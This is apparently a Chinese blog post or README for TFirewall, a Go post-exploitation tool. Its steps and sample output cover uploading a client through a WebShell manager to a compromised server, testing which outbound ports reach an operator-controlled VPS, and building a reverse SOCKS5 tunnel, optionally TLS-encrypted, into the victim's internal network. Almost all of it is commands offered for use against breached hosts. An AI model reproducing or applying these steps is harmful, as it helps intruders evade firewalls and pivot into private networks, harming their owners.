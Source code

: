 ```yaml
---
layout: post
title: TFirewall
category: 工具
tags: firewall,Golang
keywords: firewall,Golang
---
```



TFirewall是测试已控主机哪些端口可以出网及建立内网socks5代理的工具.工具主体使用golang开发,工具包含客户端及服务端,适用于windows,linux,x64,x86.
# 使用方法
## 出网检测
* 将```server_linux_x64```上传到VPS服务器(假设VPS的IP地址10.10.10.10)
* 直接运行```.\server_linux_x64 check```启动监听,工具会自动监听常用的TOP10端口,或通过 ```.\server_linux_x64 check 20-23,53,80```自定义监听端口
* 服务端打印如下信息表示监听成功
```
root@taZ:~# ./server_linux_x64 check 20-23,53,80
Check Server listening:  [20 21 22 23 53 80]
```
* 通过WEBShell管理工具将```client_win_x86.exe```上传到已控服务器
* 运行```client_win_x86.exe check 10.10.10.10```测试TOP10端口哪些可以出网
> 服务端对应命令```.\server_linux_x64 check```
* 运行```client_win_x86.exe  check 10.10.10.10 20-23,53,80```探测指定端口
> 服务端对应命令```.\server_linux_x64 check 20-23,53,80```
* 观察服务端输出即可查看客户端可以连接服务端哪些端口,使用什么协议

```
root@iZj6cbux9hc5eo9oyud2taZ:~# ./server_linux_x64 check 23,80-82
Check Server listening:  [23 80 81]
RecvTCP On 172.17.20.209:23 From 175.132.138.137:16918 
RecvTCP On 172.17.20.209:80 From 175.132.138.137:50641 
RecvTCP On 172.17.20.209:81 From 175.132.138.137:38747 
RecvUDP On [::]:23 From 175.167.138.137:28822
RecvUDP On [::]:80 From 175.167.138.137:26831
RecvUDP On [::]:81 From 175.167.138.137:26832
```

## 内网socks5代理
* 将```server_linux_x64```上传到VPS服务器(假设VPS的IP地址10.10.10.10)
* 通过 ```.\server_linux_x64 socks5 80 1080```在80端口启动控制监听,1080启动内网socks5端口
* 服务端打印如下信息表示监听成功
```
root@vultr:~# ./server_linux_x64 socks5 80 1080
Control Listening:  80
Socks5 Listening:  1080
```
* 通过WEBShell管理工具将```client_win_x86.exe```上传到已控服务器
* 运行```client_win_x64.exe socks5 10.10.10.10 80```连接服务端
* 使用10.10.10.10:1080作为内网是socks5代理(11.11.11.11是该内网出口路由器的IP地址)
```
root@vultr:~# ./server_linux_x64 socks5 80 1080
Control Listening:  80
Socks5 Listening:  1080
Socks5 new socket from :  11.11.11.11:55943
Control new socket from :  11.11.11.11:55789
```

## 内网socks5代理(TLS加密)
* 将```server_linux_x64```上传到VPS服务器(假设VPS的IP地址10.10.10.10)
* 将server.pem(tls公钥),server.key(tls私钥)上传到```server_linux_x64```相同目录
* 通过 ```.\server_linux_x64 socks5 80 1080 tls```在80端口启动控制监听,1080启动内网socks5端口
* 服务端打印如下信息表示监听成功
```
root@vultr:~# ./server_linux_x64 socks5 80 1080
Control Listening:  80
Socks5 Listening:  1080
```
* 通过WEBShell管理工具将```client_win_x86.exe```上传到已控服务器
* 运行```client_win_x64.exe socks5 10.10.10.10 80 tls```连接服务端
* 使用10.10.10.10:1080作为内网是socks5代理(11.11.11.11是该内网出口路由器的IP地址)
```
root@vultr:~# ./server_linux_x64 socks5 80 1080
Control Listening:  80
Socks5 Listening:  1080
Socks5 new socket from :  11.11.11.11:55943
Control new socket from :  11.11.11.11:55789
```

# 已测试
## server
* ubuntu 18
## client
* Windows 10 
* ubuntu 16
* kali




